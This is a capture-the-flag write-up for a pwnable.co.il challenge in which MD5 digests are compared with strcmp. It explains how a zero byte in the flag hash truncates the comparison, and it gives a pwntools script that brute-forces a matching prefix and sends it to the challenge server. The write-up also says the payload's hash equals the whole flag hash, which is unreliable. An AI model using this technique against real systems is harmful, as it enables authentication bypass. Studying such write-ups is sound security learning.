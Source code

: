 +++
title = "hash challenge writeup"
date = "2024-02-10"
description = "A writeup to the hash challenge from pwnable.co.il"
tags = [
    "pwn ", 
    "pwnable.co.il "
]

series = ["pwnable.co.il"]
+++


Looking at the source code of the challenge, we see that the program loads the flag and hashes it.

```c
int fd = open("flag", O_RDONLY);
int bytes = read(fd, &flag_str, 0x100);
...
MD5_Update(&flag, flag_str, bytes);
MD5_Final(flag_hash, &flag);

```

The program then prints the flag hash for us in hexadecimal format.

```c
puts("Flag MD5: ");
for(int i = 0; i < MD5_DIGEST_LENGTH; i++) printf("%02x", flag_hash[i]);
puts("");
```

After that, the user gets to input their guess for the flag, which gets hashed too.

```c
bytes = read(0, guess, bytes);
MD5_CTX guess_ctx;
MD5_Init(&guess_ctx);
MD5_Update(&guess_ctx, guess, bytes);
MD5_Final(guess_hash, &guess_ctx);
```
 
 
And then, the two hashes get compared using the function `strcmp` . If `strcmp` returns equal, the program prints the flag; otherwise, it prints "Wrong!!" and exits.

```c
if (!strcmp(flag_hash, guess_hash)) {
    puts("Congrats!!!");
    puts(flag_str);
} else {
    puts("Wrong!!");
}
return 1;
```

We can immediately see a logical error in the code: the `strcmp` function was used even though the hashes are not strings. The `strcmp` function compares until there's a NULL byte, `00` . This means that if there's a `00` byte in the hash of the flag, the function will return earlier than it should, and it will only check if they're both equal up to that point.

Now going back to the printed hash `537500469ddfc5b29e9379cdcc2f3c86`, we see the third byte is `00` . It means that the hashes will only be compared up to the third byte and that the hashes only need to be equal in the first two bytes for the function to return equal.

Using this newly acquired information on the program, I've created a Python script that brute-forces a 'collision' and creates a hash with the prefix `537500` , equal to the flag hash.

```python
from pwn import * 
import hashlib

def find_md5_with_prefix(prefix):
    i = 0
    while True:
        data = str(i) + '\n'
        
        md5_hash = hashlib.md5(data.encode()).hexdigest()
        
        if md5_hash[:len(prefix)] == prefix:
            return data, md5_hash
        
        i += 1
        
        
if args['LOCAL']:
    io = process('./hash')
else:
    io = remote('pwnable.co.il', 9006)
    
prefix = '537500'
payload, _ = find_md5_with_prefix(prefix)

io.send(payload)
io.interactive()
```

The hash of the payload created by my script was `537500469ddfc5b29e9379cdcc2f3c86` , and as I expected, it passed the equality check and printed out the flag.


